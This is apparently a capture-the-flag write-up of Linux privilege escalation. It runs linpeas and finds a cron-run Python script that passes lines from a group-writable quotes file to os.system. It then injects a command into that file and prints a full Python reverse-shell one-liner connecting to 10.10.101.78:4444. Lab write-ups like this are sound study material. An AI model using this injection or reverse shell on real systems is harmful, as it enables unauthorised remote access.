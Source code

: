 `sudo -l` give us:
```
(root) /usr/bin/bees
```

The script simply do a `wall` cmd. We don't have permissions to write to file

We run linpeas

Apparently im a member of group `cage`. Can we use this to access `cage` account files ?

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group weston:
/dev/mqueue/linpeas.txt
/dev/shm/lin.sh
  Group cage:
/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes
```

So there is a python script at `/opt/.dads_scripts/spread_the_quotes.py` that is run by a cron as root.

The script contains
```
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)
```

We have write access to `/opt/.dads_scripts/.files/.quotes`.

We can remove all the lines and add `a && id > /dev/shm/text`
```
uid=1000(cage) gid=1000(cage) groups=1000(cage),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```
Seem's like we're not root but `cage`.

Let's get a reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.101.78",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And we got it.
We find in `/home/cage`:
```
email_backup  
Super_Duper_Checklist
```
